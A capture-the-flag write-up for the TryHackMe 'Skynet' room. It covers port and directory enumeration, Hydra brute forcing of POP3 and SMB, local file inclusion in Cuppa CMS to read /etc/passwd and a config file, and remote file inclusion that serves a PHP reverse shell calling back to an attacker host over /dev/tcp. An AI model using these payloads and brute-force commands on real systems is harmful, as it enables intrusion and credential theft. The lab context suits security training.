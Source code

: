 # TryHackMe - Skynet  
🔗 https://tryhackme.com/room/skynet  
🎯 Objective: Exploit Samba and CMS vulnerabilities to gain initial access and privilege escalation.

---

## 🖥️ Target Information

| Property     | Value                                           |
|--------------|-------------------------------------------------|
| IP Address   | 10.10.15.79                                     |
| Services     | 22 (SSH), 80 (HTTP), 110 (POP3), 139/445 (SMB), 143 (IMAP) |
| OS           | Ubuntu (inferred from OpenSSH and Apache)      |
| CMS Detected | Cuppa CMS                                       |

---

## 🔍 1. Enumeration

### Nmap
```bash
nmap -sV -O 10.10.15.79
```

### Gobuster
```bash
gobuster dir -u http://10.10.15.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php
```

Discovered:
- /admin
- /config
- /css
- /js
- /ai
- /squirrelmail
- /45kra24zxs28v3yd
- /server-status (403)

---

## 📁 2. Samba Enumeration

### List shares
```bash
smbclient -L //10.10.15.79 -N
```

Shares:
- anonymous
- milesdyson

### Access anonymous share
```bash
smbclient //10.10.15.79/anonymous -N
```

Retrieved:
- `attention.txt`: system malfunction and password changes notice

---

## 🔐 3. POP3 & SMB Brute Force

### POP3 (hydra)
```bash
hydra -l miles -P /usr/share/wordlists/rockyou.txt -f -o found.txt pop3://10.10.15.79
```

Also tried:
```bash
hydra -l miles -P log1.txt pop3://10.10.15.79
```

### SMB brute force
```bash
hydra -l milesdyson -P log1.txt smb://10.10.15.79 -V
```

✅ Login credentials:
- User: `milesdyson`
- Password: `cyborg007haloterminator`

Accessed mailbox and found:
```
Your new smb password is: )s{A&2Z=F^n_E.B`
```

---

## 📦 4. SMB Share (milesdyson)

```bash
smbclient //10.10.15.79/milesdyson -U milesdyson
```

Password: `)s{A&2Z=F^n_E.B`

Downloaded:
- `important.txt`: reveals secret CMS path: `/45kra24zxs28v3yd`

---

## 🌐 5. CMS Analysis

Found Cuppa CMS at:
```
http://10.10.15.79/45kra24zxs28v3yd/administrator
```

Searchsploit:
```bash
searchsploit cuppa
```

Identified:
- Local File Inclusion via `urlConfig` in `alertConfigField.php`

---

## 🧪 6. File Inclusion Exploitation

Read `/etc/passwd`:
```
http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd
```

Base64 read Configuration.php:
```
http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```

Decoded password:
```php
public $password = "Db@dmin";
```

---

## 💥 7. RCE via RFI (Reverse Shell)

Craft RFI:
```bash
curl "http://10.10.15.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.140.194:8000/aaa.php"
```

`aaa.php` contents:
```php
<?php system('bash -i >& /dev/tcp/10.10.140.194/12345 0>&1'); ?>
```

Serve malicious file:
```bash
python3 -m http.server 8000
```

Listener:
```bash
nc -lvnp 12345
```

Spawn TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## ✅ Summary

| Phase                   | Status                       |
|------------------------|------------------------------|
| Enumeration             | ✅ Nmap, Gobuster             |
| Samba Access            | ✅ Shares discovered          |
| Password Disclosure     | ✅ POP3 & SMB brute forced    |
| CMS Access              | ✅ Found hidden path          |
| RFI Exploit             | ✅ Configuration.php leaked   |
| Reverse Shell           | ✅ Achieved via RFI + listener|

Next: Privilege Escalation (if needed)
